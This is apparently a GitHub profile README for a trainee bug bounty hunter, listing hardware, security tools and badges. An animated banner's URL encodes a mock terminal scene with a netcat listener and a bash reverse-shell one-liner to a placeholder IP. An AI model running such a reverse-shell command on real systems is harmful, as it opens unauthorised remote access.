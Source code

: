 <h1 align="center">Hi 👋, I'm b1kr3m</h1>


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=4000&pause=500&color=29E8F7&multiline=true&width=500&height=255&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5Bb1kr3m%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;b1kr3m%40profile%3A~%24+.%2Fexploit.py;......................................................................................................;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;b1kr3m" alt="Typing SVG" /></a>


```bash
$ whoami
bug_bounty_hunter_in_training
$ uname -a
Arch Linux | Hyprland | Security Focused
$ echo $MISSION
"Making the web safer, one vulnerability at a time"
```
<div align='right'>

</div>

<div align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=00F7FF&center=true&vCenter=true&width=435&lines=Bug+Bounty+Hunter+%F0%9F%91%A8%E2%80%8D%F0%9F%92%BB;Cybersecurity+Enthusiast+%F0%9F%94%92;Linux+Power+User+%F0%9F%90%A7;Learning+%26+Growing+%F0%9F%9A%80" alt="Typing SVG" />
</div>


### ⚓️ Primary Pentesting Rig
<p align='left'>
  <img src="https://img.shields.io/badge/Arch-f23224?style=for-the-badge&logo=arch-linux&logoColor=white" />
  <img src="https://img.shields.io/badge/Hyprland-blue?style=for-the-badge&logoColor=white" />
  <img src="https://img.shields.io/badge/core%20i7%2013th-%230071C5.svg?&style=for-the-badge&logo=intel&logoColor=white" />
  <img src="https://img.shields.io/badge/rtx%204060-%2376B900.svg?&style=for-the-badge&logo=nvidia&logoColor=white" />
  <img src="https://img.shields.io/badge/RAM-32GB-%230071C5.svg?&style=for-the-badge&logoColor=white" />
</p>

### 🔐 Security Tools

<p align="left">
  <img src="https://img.shields.io/badge/Burp%20Suite-FF6633?style=for-the-badge&logo=burpsuite&logoColor=white" alt="Burp Suite"/>
  <img src="https://img.shields.io/badge/Wireshark-1679A7?style=for-the-badge&logo=wireshark&logoColor=white" alt="Wireshark"/>
  <img src="https://img.shields.io/badge/Metasploit-2596CD?style=for-the-badge&logo=metasploit&logoColor=white" alt="Metasploit"/>
  <img src="https://img.shields.io/badge/Nmap-2C2C2C?style=for-the-badge&logo=nmap&logoColor=white" alt="Nmap"/>
  <img src="https://img.shields.io/badge/Amass-FF6F00?style=for-the-badge&logo=apache&logoColor=white" alt="Amass"/>
  <img src="https://img.shields.io/badge/Sublist3r-4B8BBE?style=for-the-badge&logo=python&logoColor=white" alt="Sublist3r"/>
  <img src="https://img.shields.io/badge/FFUF-FFD700?style=for-the-badge&logo=fastapi&logoColor=black" alt="FFUF"/>
  <img src="https://img.shields.io/badge/SQLmap-800000?style=for-the-badge&logo=sqlite&logoColor=white" alt="SQLmap"/>
  <img src="https://img.shields.io/badge/Hydra-228B22?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Hydra"/>
  <img src="https://img.shields.io/badge/HackerOne-494949?style=for-the-badge&logo=hackerone&logoColor=white" alt="HackerOne"/>
  <img src="https://img.shields.io/badge/Bugcrowd-FF6600?style=for-the-badge&logo=bugcrowd&logoColor=white" alt="Bugcrowd"/>
  <img src="https://img.shields.io/badge/TryHackMe-212C42?style=for-the-badge&logo=tryhackme&logoColor=red" alt="TryHackMe"/>
  <img src="https://img.shields.io/badge/HackTheBox-111927?style=for-the-badge&logo=hackthebox&logoColor=9FEF00" alt="Hack The Box"/>
  <img src="https://img.shields.io/badge/Kali-557C94?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali Linux"/>
  <img src="https://img.shields.io/badge/OWASP-000000?style=for-the-badge&logo=owasp&logoColor=white" alt="OWASP"/>
</p>


<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
  <img alt="pacman contribution graph" src="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
</picture>

---

<div align="center">
  
**"From fear to first bounty - the journey continues..."** 🎯

[![Linux](https://img.shields.io/badge/-Linux-000000?style=flat&logo=linux&logoColor=FCC624)](https://github.com/b1kr3m)
[![Security](https://img.shields.io/badge/-Security-000000?style=flat&logo=hackaday&logoColor=1FC7D4)](https://github.com/b1kr3m)
[![Bug Bounty](https://img.shields.io/badge/-Bug%20Bounty-000000?style=flat&logo=bugcrowd&logoColor=F26822)](https://github.com/b1kr3m)
</div>

